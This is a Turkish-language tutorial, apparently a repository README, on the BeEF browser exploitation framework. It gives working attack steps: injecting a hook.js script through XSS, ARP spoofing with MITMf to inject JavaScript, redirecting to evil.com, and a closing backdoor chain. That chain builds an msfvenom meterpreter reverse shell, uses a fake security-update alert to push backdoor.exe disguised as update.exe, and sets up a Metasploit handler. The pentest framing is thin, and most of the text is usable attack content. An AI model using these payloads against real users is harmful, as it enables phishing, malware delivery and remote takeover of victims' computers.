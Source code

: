 ### BeEF (Browser Exploitation Framework) Nedir?
BeEF (Browser Exploitation Framework), tarayıcıları hedef alan güvenlik açıklarını test etmek için kullanılan bir sızma testi aracıdır.

### 📌 Ne İşe Yarar?
🔹 XSS açıkları üzerinden tarayıcıyı ele geçirmek

🔹 Hedefin IP, cihaz bilgileri, ağ bağlantıları gibi bilgilerini toplamak

🔹 Tarayıcı üzerinden komut çalıştırarak saldırılar simüle etmek

🔹 Pentest ve güvenlik araştırmalarında kullanılır

### 📌 Nasıl Çalışır?
1️⃣ Hedefin Tarayıcısını Hook'lama
XSS açığı bulunan bir siteye BeEF JavaScript payload’u enjekte edilir.
Kullanıcı bu sayfaya girince tarayıcısı BeEF’e bağlanır.

2️⃣ Tarayıcı Üzerinden Bilgi Toplama ve Exploit Çalıştırma
Kullanıcının IP adresi, işletim sistemi, tarayıcı bilgileri alınır.
Keylogger, sayfa değiştirme, phishing saldırıları gibi testler yapılabilir.
Hedefi Oltaya Takmak

### 2️⃣ Hedef Tarayıcıyı "Hook" Et (Bağlamak)
✅ Hedefin tarayıcısını BeEF’e bağlamak için XSS veya açık bir site kullanılır.
✅ BeEF'in hook.js kodunu hedefte çalıştırmalısın:
```
html
```
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Eğer bir web sitesinde XSS açığı bulduysan, yukarıdaki kodu payload olarak enjekte edebilirsin.

🔹 Hedef bu sayfayı açtığında tarayıcısı BeEF’e bağlanır.

### 3️⃣ Hedef Tarayıcıya Komut Gönderme

✅ BeEF panelinden hooklanan (bağlanan) tarayıcıyı seç ve aşağıdaki işlemleri yapabilirsin:

🔹 Bilgi Toplama:
Tarayıcı ve işletim sistemi bilgilerini al
Hedefin IP adresini öğren

🔹 Tarayıcı Üzerinde Saldırı Simülasyonu:
Alert pop-up çıkartma:
javascript
alert("Tarayıcınız ele geçirildi!");
Keylogger çalıştırma
Phishing sayfası açma
Sayfa yönlendirme (Redirect)
JavaScript Enjeksiyonu
MitM Saldırısı
```
#python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --inject --js-url
```
gateway=modem ip
target=hedef ip
(bettercap daha güncel bir araçtır. Genelde artık bettercap kullanılır.)
### BeEF Kontrol Paneli – Kısaca Özet
BeEF'in kontrol paneli, bağlanan tarayıcıları yönetmek ve saldırı simülasyonları yapmak için kullanılan bir arayüzdür. http://127.0.0.1:3000/ui/panel adresinden erişilir.

### 📌 BeEF Kontrol Panelinin Bölümleri

## 1️⃣ Online Tarayıcılar (Hooked Browsers)
✅ Bağlanan (hook edilen) tarayıcıları listeler.

✅ Hedefin IP adresi, işletim sistemi, tarayıcı türü ve versiyonu gösterilir.

## 2️⃣ Modüller (Commands)
✅ Hedef tarayıcıda çalıştırılabilecek exploit ve komutları içerir.

✅ Kullanılabilecek bazı modüller:
Alert Box Gönderme (alert("Hacked!"))
Sayfa Yönlendirme (window.location="http://evil.com")
Keylogger (Klavye Dinleme)
Sahte Login Sayfası Gösterme (Phishing)

## 3️⃣ Loglar ve Konsol (Logs & Console)

✅ Çalıştırılan komutların ve hedeften gelen cevapların kaydedildiği bölümdür.

✅ JavaScript kodları girerek hedef tarayıcıda testler yapabilirsin.

## 4️⃣ Ağ Saldırıları (Network Attacks)
✅ Hedef tarayıcı yerel ağda (LAN) çalışıyorsa, yerel cihazları ve portları taramak için kullanılabilir.

### 4️⃣ Hedef Tarayıcıdan Çıkma ve Kapanış
✅ Hedef tarayıcı sayfayı kapatırsa bağlantı kopar.

✅ BeEF’i durdurmak için CTRL + C yaparak terminalden kapatabilirsin.

### 📌 Özet
🚀 BeEF, tarayıcı güvenlik açıklarını test etmek için kullanılır.

✅ XSS açığını kullanarak bir tarayıcıyı "hook" edersin.

✅ Bağlanan tarayıcıda bilgi toplama, yönlendirme ve phishing testleri yapabilirsin.
### BeEF ile Backdoor Gönderme (Kısaca)
BeEF, hedefin tarayıcısını "hook" ettikten sonra çeşitli saldırılar simüle edebilir. Bunlardan biri de bir backdoor dosyasını hedefe iletmek ve çalıştırmasını sağlamaktır.

### 1️⃣ BeEF ile Hedefi "Hook" Et
Öncelikle hedefin tarayıcısını BeEF’e bağlamalısın. Bunun için bir XSS açığı veya hedefin ziyaret ettiği bir sayfaya aşağıdaki hook.js kodunu ekleyebilirsin:
```
html
```
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Hedef bu sayfayı açınca tarayıcısı BeEF’e bağlanır.

### 2️⃣ Backdoor Payload Hazırla (Metasploit ile)
Metasploit kullanarak bir Windows reverse shell backdoor oluştur:
```
bash
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > backdoor.exe
🔹 LHOST: Kendi IP adresin
🔹 LPORT: Dinleyeceğin port

### 3️⃣ BeEF ile Hedefe Backdoor Gönderme
BeEF kontrol paneline gir (http://127.0.0.1:3000/ui/panel) ve "Hooked Browsers" sekmesinden hedefi seç.

✅ Saldırı Modüllerinden "Create Invisible iFrame" Kullan:
Bunu kullanarak arka planda zararlı dosyanın indirildiği bir iFrame oluşturabilirsin:
```
javascript
```
window.location.href = "http://YOUR_IP/backdoor.exe";

✅ Fake Güncelleme Mesajı ile İndirtme:
Hedefe sahte bir mesaj gösterip backdoor’u indirmesini sağlamak için:
```
javascript
```
alert("Güvenlik güncellemesi gerekli! Güncellemeyi indirmek için Tamam'a tıklayın.");
window.location.href = "http://YOUR_IP/backdoor.exe";

✅ HTML 5 Download API Kullanımı:
```
javascript
```
var link = document.createElement('a');
link.href = 'http://YOUR_IP/backdoor.exe';
link.download = 'update.exe';
document.body.appendChild(link);
link.click();
🔹 Bu yöntem, dosyanın tarayıcı tarafından otomatik indirilmesini sağlar.

### 4️⃣ Backdoor’u Dinleme ve Yönetme
Hedef backdoor.exe dosyasını çalıştırırsa, Metasploit ile bağlantıyı dinle:
```
bash
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit
📌 Başarıyla bağlantı kurulduğunda hedef sistem üzerinde kontrol sağlarsın.



